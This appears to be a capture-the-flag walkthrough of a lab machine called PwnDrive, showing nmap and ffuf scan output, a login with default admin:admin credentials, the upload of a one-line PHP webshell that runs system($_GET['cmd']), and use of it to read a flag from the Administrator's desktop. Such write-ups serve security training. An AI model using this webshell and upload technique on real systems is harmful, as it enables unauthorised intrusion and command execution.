








#### Scanning running services
***
┌─[elliot@parrot]─[~]
└──╼ $nmap  10.150.150.11
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-01 17:31 EAT
Nmap scan report for 10.150.150.11
Host is up (0.28s latency).
Not shown: 984 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
21/tcp    open     ftp
80/tcp    open     http
135/tcp   open     msrpc
139/tcp   open     netbios-ssn
443/tcp   open     https
445/tcp   open     microsoft-ds
1433/tcp  open     ms-sql-s
3306/tcp  open     mysql
3389/tcp  open     ms-wbt-server
8099/tcp  filtered unknown
49152/tcp open     unknown
49153/tcp open     unknown
49154/tcp open     unknown
49155/tcp open     unknown
49156/tcp open     unknown
49157/tcp open     unknown

Nmap done: 1 IP address (1 host up) scanned in 32.07 seconds

┌─[elliot@parrot]─[~]
└──╼ $nmap -sV -sC -p21,80,135,139,443,445,1433,3306,3389  10.150.150.11
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-01 17:33 EAT
Nmap scan report for 10.150.150.11
Host is up (0.24s latency).

PORT     STATE SERVICE            VERSION
21/tcp   open  ftp                Xlight ftpd 3.9
80/tcp   open  http               Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.4.9)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1g PHP/7.4.9
|_http-title: PwnDrive - Your Personal Online Storage
135/tcp  open  msrpc              Microsoft Windows RPC
139/tcp  open  netbios-ssn        Microsoft Windows netbios-ssn
443/tcp  open  ssl/http           Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.4.9)
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_http-title: PwnDrive - Your Personal Online Storage
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1g PHP/7.4.9
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp  open  microsoft-ds       Windows Server 2008 R2 Enterprise 7601 Service Pack 1 microsoft-ds
1433/tcp open  ms-sql-s           Microsoft SQL Server 2012 11.00.2100.00; RTM
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2024-03-21T12:57:09
|_Not valid after:  2054-03-21T12:57:09
| ms-sql-ntlm-info: 
|   10.150.150.11:1433: 
|     Target_Name: PWNDRIVE
|     NetBIOS_Domain_Name: PWNDRIVE
|     NetBIOS_Computer_Name: PWNDRIVE
|     DNS_Domain_Name: PwnDrive
|     DNS_Computer_Name: PwnDrive
|_    Product_Version: 6.1.7601
| ms-sql-info: 
|   10.150.150.11:1433: 
|     Version: 
|       name: Microsoft SQL Server 2012 RTM
|       number: 11.00.2100.00
|       Product: Microsoft SQL Server 2012
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
|_ssl-date: 2024-09-01T12:03:16+00:00; -2h32m56s from scanner time.
3306/tcp open  mysql              MySQL 5.5.5-10.4.14-MariaDB
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.4.14-MariaDB
|   Thread ID: 33
|   Capabilities flags: 63486
|   Some Capabilities: InteractiveClient, Support41Auth, SupportsCompression, Speaks41ProtocolOld, IgnoreSigpipes, ODBCClient, FoundRows, SupportsTransactions, Speaks41ProtocolNew, LongColumnFlag, ConnectWithDatabase, SupportsLoadDataLocal, DontAllowDatabaseTableColumn, IgnoreSpaceBeforeParenthesis, SupportsMultipleStatments, SupportsMultipleResults, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: J`&8(^&<;Tur[P`r>zl2
|_  Auth Plugin Name: mysql_native_password
3389/tcp open  ssl/ms-wbt-server?
| rdp-ntlm-info: 
|   Target_Name: PWNDRIVE
|   NetBIOS_Domain_Name: PWNDRIVE
|   NetBIOS_Computer_Name: PWNDRIVE
|   DNS_Domain_Name: PwnDrive
|   DNS_Computer_Name: PwnDrive
|   Product_Version: 6.1.7601
|_  System_Time: 2024-09-01T12:03:04+00:00
| ssl-cert: Subject: commonName=PwnDrive
| Not valid before: 2024-08-31T09:54:56
|_Not valid after:  2025-03-02T09:54:56
|_ssl-date: 2024-09-01T12:03:13+00:00; -2h32m56s from scanner time.
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: PWNDRIVE, NetBIOS user: unknown, NetBIOS MAC: 00:0c:29:89:87:cb (VMware)
| smb2-time: 
|   date: 2024-09-01T12:03:04
|_  start_date: 2024-03-21T12:57:13
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows Server 2008 R2 Enterprise 7601 Service Pack 1 (Windows Server 2008 R2 Enterprise 6.1)
|   OS CPE: cpe:/o:microsoft:windows_server_2008::sp1
|   Computer name: PwnDrive
|   NetBIOS computer name: PWNDRIVE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-09-01T05:03:03-07:00
| smb-security-mode: 
|   account_used: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: -1h32m55s, deviation: 2h38m45s, median: -2h32m56s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 133.73 seconds

***

#### I performed directory bruteforcing with ffuf
***
┌─[elliot@parrot]─[~]
└──╼ $ffuf -u http://10.150.150.11/FUZZ -w /usr/share/wordlists/dirb/common.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.150.150.11/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.htaccess               [Status: 403, Size: 1045, Words: 102, Lines: 43, Duration: 264ms]
.hta                    [Status: 403, Size: 1045, Words: 102, Lines: 43, Duration: 407ms]
.htpasswd               [Status: 403, Size: 1045, Words: 102, Lines: 43, Duration: 211ms]
                        [Status: 200, Size: 4036, Words: 1153, Lines: 102, Duration: 223ms]
admin                   [Status: 301, Size: 338, Words: 22, Lines: 10, Duration: 630ms]
Admin                   [Status: 301, Size: 338, Words: 22, Lines: 10, Duration: 617ms]
ADMIN                   [Status: 301, Size: 338, Words: 22, Lines: 10, Duration: 624ms]
aux                     [Status: 403, Size: 1045, Words: 102, Lines: 43, Duration: 766ms]
cgi-bin/                [Status: 403, Size: 1059, Words: 103, Lines: 43, Duration: 855ms]
com1                    [Status: 403, Size: 1045, Words: 102, Lines: 43, Duration: 609ms]
com2                    [Status: 403, Size: 1045, Words: 102, Lines: 43, Duration: 578ms]
com3                    [Status: 403, Size: 1045, Words: 102, Lines: 43, Duration: 571ms]
components              [Status: 301, Size: 343, Words: 22, Lines: 10, Duration: 944ms]
con                     [Status: 403, Size: 1045, Words: 102, Lines: 43, Duration: 923ms]
css                     [Status: 301, Size: 336, Words: 22, Lines: 10, Duration: 782ms]
favicon.ico             [Status: 200, Size: 104623, Words: 50, Lines: 50, Duration: 628ms]
img                     [Status: 301, Size: 336, Words: 22, Lines: 10, Duration: 831ms]
inc                     [Status: 301, Size: 336, Words: 22, Lines: 10, Duration: 953ms]
index.php               [Status: 200, Size: 4036, Words: 1153, Lines: 102, Duration: 918ms]
licenses                [Status: 403, Size: 1204, Words: 127, Lines: 46, Duration: 528ms]
lpt1                    [Status: 403, Size: 1045, Words: 102, Lines: 43, Duration: 632ms]
lpt2                    [Status: 403, Size: 1045, Words: 102, Lines: 43, Duration: 608ms]
nul                     [Status: 403, Size: 1045, Words: 102, Lines: 43, Duration: 612ms]
phpmyadmin              [Status: 403, Size: 1204, Words: 127, Lines: 46, Duration: 771ms]
prn                     [Status: 403, Size: 1045, Words: 102, Lines: 43, Duration: 881ms]
server-info             [Status: 403, Size: 1204, Words: 127, Lines: 46, Duration: 591ms]
server-status           [Status: 403, Size: 1204, Words: 127, Lines: 46, Duration: 645ms]
upload                  [Status: 301, Size: 339, Words: 22, Lines: 10, Duration: 670ms]
utils                   [Status: 301, Size: 338, Words: 22, Lines: 10, Duration: 860ms]
vendor                  [Status: 301, Size: 339, Words: 22, Lines: 10, Duration: 636ms]
webalizer               [Status: 403, Size: 1045, Words: 102, Lines: 43, Duration: 632ms]
:: Progress: [4614/4614] :: Job [1/1] :: 33 req/sec :: Duration: [0:01:34] :: Errors: 0 ::

***

#### Upon visiting **/admin** directory I found some interesting admin pages
***

**manageusers.php**

#### I visited the **/login.php** page and tried login with credentials **admin:admin** I found an uploaded image
#### Then I tried upload a file on it
***

***

#### I uploaded a webshell to  check for RFI
***
┌─[elliot@parrot]─[~]
└──╼ $cat webshell.php 
<?php system($_GET['cmd']); ?>

***
#### Then i checked it in */uploads* directory
***

***

#### So I used RFI to enble Command injection via a webshell
#### After navigating to */upload* directory discovered by ffuf,
#### I called the webshell using a tag *?cmd=*
***

***

#### So, since its recognized as Windows machine by db_nmap
#### I viewed *C:/Users* directory
***

***

#### Interesting looks like there is a directory for user called *Administrator.*
#### From *Desktop/* directory, I found the flag
***
.

***

#### Use *more* or type to view the flag and Pawn the machine
***

***
